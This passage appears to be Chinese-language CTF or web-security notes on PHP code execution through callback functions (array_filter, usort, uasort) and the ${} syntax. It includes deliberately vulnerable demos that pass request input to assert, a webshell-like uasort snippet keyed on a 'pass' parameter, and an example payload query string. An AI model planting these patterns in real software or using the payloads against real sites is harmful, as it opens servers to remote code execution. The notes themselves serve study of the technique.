 array_filter():依次将 array 数组中的每个值传递到 callback 函数。如果 callback 函数返回 true，则 array 数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。

demo:

<?php
highlight_file(__FILE__);
$array[0] = $_GET['a'];
array_filter($array,'assert');
?>

#### **usort**

usort():使用自定义函数对数组进行排序

demo:

<?php
highlight_file(__FILE__);
usort(...$_GET);
#usort($_GET[1],'assert');
?>
...$GET是php5.6引入的新特性。即将数组展开成参数的形式

用法：

1[]=phpinfo()&1[]=123&2[]=assert

大致过程：

大概过程就是，GET变量被展开成两个参数['phpinfo', '123']和assert，传入usort函数。usort函数的第二个参数是一个回调函数assert，其调用了第一个参数中的phpinfo();

#### **uasort**

uasort():使用用户自定义的比较函数对数组的值进行排序并保持索引关联

demo:

<?php
highlight_file(__FILE__);
$e = 'assert';
$arr = array($_REQUEST['pass'],'test' );
uasort($arr, $e);
?>

#### **${}**

${}:中间的php代码将会被解析

demo：

<?php
highlight_file(__FILE__);
${phpinfo()};
?>


